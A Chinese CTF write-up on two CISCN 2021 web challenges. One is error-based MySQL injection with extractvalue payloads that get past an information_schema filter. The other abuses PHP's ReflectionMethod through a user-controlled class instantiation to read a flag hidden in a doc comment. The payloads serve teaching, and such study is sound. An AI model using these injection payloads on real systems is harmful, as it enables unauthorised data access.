 ```yaml
---
title: CISCN线上赛库存
date: 2021-08-18 17:21:24
tags: 
- web
- sql注入
- php原生类
categories: 
- CTF
---
```


# easy_sql

在用户名处，尝试sql注入，加上单引号报错，测试闭合，随便添加几个符号在password的报错附近中注意到了是**括号单引号闭合**

> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1') LIMIT 0,1' at line 1

过滤的字符有union，所以尝试报错注入，查询版本号。

```
admin') and (extractvalue(1,concat(0x7e,(select version()),0x7e)))#
```

接下来想要通过**information_schema**库查字段，但是发现被过滤了，所以猜表名和字段名，尝试出了flag表和表中的一个字段id，但是在id字段中只查询出了一个值：1，使用sqlmap跑也没跑出来。

最后参考了网上的一篇文章：[mysql 注入 information_schema_绕过IDS过滤information_schema继续注入](https://blog.csdn.net/weixin_35867608/article/details/113937118)，模仿文章构造payload

```
admin') and (extractvalue(1,concat(0x7e,(select * from (select * from flag a join flag b USING (id))c),0x7e)))#
```

回显为：Duplicate column name 'no'，一开始以为是报了个错，但是根据文章使用using继续把查到的no字段加上去，发现还有其他字段

```
Duplicate column name '28d9f90a-4120-4ee8-9079-4e7613699510'
```

直接得到一个假的flag，真的还在flag表中，查询flag表中的改字段，报错注入长度有限制，所以加个substr一段一段截就出来了

```
admin') and (extractvalue(1,concat(0x7e,substr((select `28d9f90a-4120-4ee8-9079-4e7613699510` from `flag`),1,30),0x7e)))#
```

flag：CISCN{SWAqt-siWro-Wi7jV-FTdRm-9iOkG-}

# easy_source

使用目录扫描，扫描到了`.index.php.swo`

```
本题目没有其他代码了噢，就只有这一个文件，虽然你看到的不完全，但是你觉得我会把flag藏在哪里呢，仔细想想文件里面还有什么？
<?php
class User
{
    private static $c = 0;

    function a()
    {
        return ++self::$c;
    }

    function b()
    {
        return ++self::$c;
    }

    function c()
    {
        return ++self::$c;
    }

    function d()
    {
        return ++self::$c;
    }

    function e()
    {
        return ++self::$c;
    }

    function f()
    {
        return ++self::$c;
    }

    function g()
    {
        return ++self::$c;
    }

    function h()
    {
        return ++self::$c;
    }

    function i()
    {
        return ++self::$c;
    }

    function j()
    {
        return ++self::$c;
    }

    function k()
    {
        return ++self::$c;
    }

    function l()
    {
        return ++self::$c;
    }

    function m()
    {
        return ++self::$c;
    }

    function n()
    {
        return ++self::$c;
    }

    function o()
    {
        return ++self::$c;
    }

    function p()
    {
        return ++self::$c;
    }

    function q()
    {
        return ++self::$c;
    }

    function r()
    {
        return ++self::$c;
    }

    function s()
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }
    
}

$rc=$_GET["rc"];
$rb=$_GET["rb"];
$ra=$_GET["ra"];
$rd=$_GET["rd"];
$method= new $rc($ra, $rb);
var_dump($method->$rd());
```

看最后的参数列表，使用参数创建对象，并且创建对象的初始化参数需要有两个`$ra`、`$rb`

，源码虽然给出了`User`类，但是不知道有什么其他的方法，这时候想到了可能使用PHP的原生类。

根据提示

> 虽然你看到的不完全，但是你觉得我会把flag藏在哪里呢，仔细想想文件里面还有什么？

应该想到看不完全可能是在代码注释中，百度获取类中的代码注释，可以得到一个`ReflectionMethod`类，并且`ReflectionMethod`类中刚好有一个`getDocComment` 方法可以获得注释：

> 简介：**ReflectionMethod** 类报告了一个方法的有关信息。类报告了一个方法的有关信息
>
> ReflectionFunctionAbstract::getDocComment — 获取注释内容

源码中初始化创建对象为`new $rc($ra, $rb)`，传递了两个参数，`ReflectionMethod`类的初始化魔术方法也提供了两个参数

> public ReflectionMethod::__construct ( [mixed](https://www.php.net/manual/zh/language.types.declarations.php#language.types.declarations.mixed) `$class` , string `$name` )

所以构造第一个参数是User，第二个参数为源码里的那些方法名，一个一个尝试，在q方法中找到了flag的注释

payload

```
?rc=ReflectionMethod&ra=User&rb=q&rd=getDocComment
```

结果

```
你能发现我吗string(152) "/** * Increment counter * * @final * @static * @access publicCISCN{uLG8v-wGDDi-PfF4M-Pmc2U-uBqB2-} * @return int */"
```



题外话：在尝试过程中还发现了另一个类`ReflectionClass`

> 简介：**ReflectionClass** 类报告了一个类的有关信息。

和上面的那个类对比，两个类研究的对象不一样**ReflectionMethod**研究的是类中的方法，**ReflectionClass** 研究的是类。

这个类中也有一个获得注释的函数ReflectionClass::getDocComment，但是其获得的是文档注释，即文件开头的/**/中内容，但是本题的注释是在函数里的。

